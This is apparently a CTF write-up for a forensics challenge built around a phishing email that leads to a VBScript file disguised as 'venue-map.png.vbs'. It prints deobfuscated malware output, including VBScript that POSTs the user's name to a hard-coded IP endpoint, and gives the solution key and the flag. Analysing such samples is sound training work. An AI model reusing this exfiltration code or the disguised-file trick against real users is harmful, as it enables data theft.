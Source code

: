 ### DEF CON Invitation
As you all know, DEF CON CTF Qualifier 2023 was really competitive and we didn't make it. 
Surprisingly, 2 months before the finals in Las Vegas, we received an official invitation from Nautilus Institute to 
attend the event. Should we accept the invitation and schedule the trip?
Auther: sahuang

---
[Given file](DEFCON_Finals_Invitation.eml)

So we start out with an email. Looking at the message ID we see `Message-Id: <20230626040116.E7EA75474A4@emkei.cz>` which means that this was made with the fake emailer software emkei which explains how the email address looks real since emkei can send emails from any address without having access to it. So we can move on to looking at the attached calendar invite. 

The body of the calendar invite has two links
`https://storage.googleapis.com/defcon-nautilus/venue-guide.html and https://nautilus.org/`
The venue-guide link leads us to download a file named `venue-map.png.vbs` which is a poor attempt at hiding visual basic code as a png file. 
The vbs file has a lot of code in it, a lot is only relevant to the malware but everything after the final "your data is ours now pls send bitcoin" message is heavily obfuscated and looks strange, why would there be more code after the ransom message?

I picked out all the strange code and placed it in my own vbs file to run. 
[pls.vbs](pls.vbs) (named pls because I was asking nicely for it to work)

The output is as follows:
`c:\temp\defcon-flag.png.compromised `
```
https://download1647.mediafire.com/l188u2d532qg3fOoLpilcI89p0_h4E0cGLjk_uvBUiag7E_rMZ-H5-me9Kr9SQLVQaKSiKcEvJO-EkfTSUqWlrN6SzXgI0LYBh-F5em4IA4iX3tOIGh0Ej46GlwvLOfT8pzvuy91Utej1r2I0jg7YsUNcssPted508dskWRpkAI/yea535hvgp32vmv/defcon-flag.png.XORed
```

```
Dim http:
Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
Dim url: url = "http://20.106.250.46/sendUserData"
With http
    Call .Open("POST", url, False)
    Call .SetRequestHeader("Content-Type", "application/json")
    Call .Send("{""username"":""" & strUser & """}")
End With
res = Msgbox("Thank you for your cooperation!", vbOKOnly+vbInformation, "")
```

The second one is a link to download a file named [defcon-flag.png.XORed](defcon-flag.png.XORed) which, from the name, we can assume is our flag as an image that has been XORed. So now we just need to the key to XOR it back with. 

If we send our own POST request to the url in the third output (I used https://reqbin.com/post-online to do this) with a blank username, we get the following returned:
`{
    "key": "compromised",
    "msg": "Not admin!"
}`

Interesting. So if we instead send admin as the username, we get:
`{
    "key": "02398482aeb7d9fe98bf7dc7cc_ITDWWGMFNY",
    "msg": "Data compromised!"
}`

Very nice. From here I had to play around with cyberchef to work out how to use this key. I ended up converting the key to hex and XORing it with the png.XORED file and got the following image.
![Defcon final flag](Defcon final flag.png)
If we then flip the image both vertically and horizontally, we get the flag 
`SEKAI{so_i_guess_we'll_get_more_better_next_year-_-}`

For reference, my final cyberchef recipe was https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':'30%2032%2033%2039%2038%2034%2038%2032%2061%2065%2062%2037%2064%2039%2066%2065%2039%2038%2062%2066%2037%2064%2063%2037%2063%2063%205f%2049%2054%2044%2057%2057%2047%204d%2046%204e%2059'%7D,'Standard',false)Render_Image('Raw')Flip_Image('Vertical')Flip_Image('Horizontal')

